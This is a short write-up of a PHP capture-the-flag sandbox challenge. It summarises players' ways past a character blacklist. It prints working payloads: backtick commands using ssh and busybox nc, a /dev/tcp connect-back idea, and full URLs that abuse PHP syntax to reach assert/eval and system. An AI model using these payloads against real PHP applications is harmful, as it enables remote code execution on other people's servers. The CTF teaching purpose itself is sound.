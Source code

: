 ![Hall Of Fame](hof.png)
# URL
[l4w.pw/🤔/](http://l4w.pw/🤔/)

# Type
PHP CTF-style challenge.

How to construct command following the rules.

Trick to run weird command or abusing PHP syntax.

# Solution
This challenge came by when I was solving a PHP sandbox challenge which has limited characters/blacklist functions/...

I left backstick, to see amazing tricks from you guys.

All of them can be found at: [writeup](writeup)

There are serveral solutions:
### Abusing backstick:
* Create a temporary file containing chunks (by using: printf/echo/...)
* Run the file, to connect localhost:8888 (using python or bash with /dev/tcp/...)
* See nyan/orange/kaibro/pablo sol.(there is one-line sol)
* shout out to nyan for the full details [writeup](writeup/nyan.pdf).


### Abusing ssh / busybox
It ... surprised me 
* ```die(`ssh -v 0 -p 888\%0a8 2>&1`);```
* ```die(`bus\yb\ox nc 0:888\8`);```
* Using `ssh` and blackslash (See `huyphan` sol)


### PHP syntax abusing
By using bitwise `&`, we can make a string following the rule regexp `\w{4}`, then use `{` as a name of variable `${}`, also access array index `$array{index}`
* `http://l4w.pw/%F0%9F%A4%94/?%E2%81%A3=$a=${_GE%d4%26_GE%7f};$a{0}($a{1});&0=assert&1=eval($_GET[2]);&2=echo%20123;`
* Also see kad96/fa_boy/tsu solutions.
* `http://l4w.pw/🤔/index.php?0=system&1=busybox nc 127.0.0.1 8888&%E2%81%A3=$b=_GE;$b{3}=T;$$b{0}($$b{1});` (From tiengiang, looks like he's the first one who found out `busybox` can be used...)

